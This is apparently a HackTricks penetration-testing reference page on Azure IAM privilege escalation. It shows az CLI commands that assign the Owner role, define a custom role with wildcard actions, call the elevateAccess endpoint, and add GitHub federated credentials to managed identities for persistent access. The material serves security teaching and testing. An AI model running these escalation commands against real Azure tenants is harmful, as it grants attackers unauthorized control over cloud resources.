 # Az - Azure IAM Privesc (Authorization)

{{#include ../../../banners/hacktricks-training.md}}

## Azure IAM

Fore more information check:

{{#ref}}
../az-services/az-azuread.md
{{#endref}}

### Microsoft.Authorization/roleAssignments/write

This permission allows to assign roles to principals over a specific scope, allowing an attacker to escalate privileges by assigning himself a more privileged role:

```bash
# Example
az role assignment create --role Owner --assignee "24efe8cf-c59e-45c2-a5c7-c7e552a07170" --scope "/subscriptions/9291ff6e-6afb-430e-82a4-6f04b2d05c7f/resourceGroups/Resource_Group_1/providers/Microsoft.KeyVault/vaults/testing-1231234"
```

### Microsoft.Authorization/roleDefinitions/Write

This permission allows to modify the permissions granted by a role, allowing an attacker to escalate privileges by granting more permissions to a role he has assigned.

Create the file `role.json` with the following **content**:

```json
{
  "Name": "<name of the role>",
  "IsCustom": true,
  "Description": "Custom role with elevated privileges",
  "Actions": ["*"],
  "NotActions": [],
  "DataActions": ["*"],
  "NotDataActions": [],
  "AssignableScopes": ["/subscriptions/<subscription-id>"]
}
```

Then update the role permissions with the previous definition calling:

```bash
az role definition update --role-definition role.json
```

### Microsoft.Authorization/elevateAccess/action

This permissions allows to elevate privileges and be able to assign permissions to any principal to Azure resources. It's meant to be given to Entra ID Global Administrators so they can also manage permissions over Azure resources.

> [!TIP]
> I think the user need to be Global Administrator in Entrad ID for the elevate call to work.

```bash
# Call elevate
az rest --method POST --uri "https://management.azure.com/providers/Microsoft.Authorization/elevateAccess?api-version=2016-07-01"

# Grant a user the Owner role
az role assignment create --assignee "<obeject-id>" --role "Owner" --scope "/"
```

### Microsoft.ManagedIdentity/userAssignedIdentities/federatedIdentityCredentials/write

This permission allows to add Federated credentials to managed identities. E.g. give access to Github Actions in a repo to a managed identity. Then, it allows to **access any user defined managed identity**.

Example command to give access to a repo in Github to the a managed identity:

```bash
# Generic example:
az rest --method PUT \
  --uri "https://management.azure.com//subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<managed-identity-name>/federatedIdentityCredentials/<name-new-federated-creds>?api-version=2023-01-31" \
  --headers "Content-Type=application/json" \
  --body '{"properties":{"issuer":"https://token.actions.githubusercontent.com","subject":"repo:<org-name>/<repo-name>:ref:refs/heads/<branch-name>","audiences":["api://AzureADTokenExchange"]}}'

# Example with specific data:
az rest --method PUT \
  --uri "https://management.azure.com//subscriptions/92913047-10a6-2376-82a4-6f04b2d03798/resourceGroups/Resource_Group_1/providers/Microsoft.ManagedIdentity/userAssignedIdentities/funcGithub-id-913c/federatedIdentityCredentials/CustomGH2?api-version=2023-01-31" \
  --headers "Content-Type=application/json" \
  --body '{"properties":{"issuer":"https://token.actions.githubusercontent.com","subject":"repo:carlospolop/azure_func4:ref:refs/heads/main","audiences":["api://AzureADTokenExchange"]}}'
```

{{#include ../../../banners/hacktricks-training.md}}
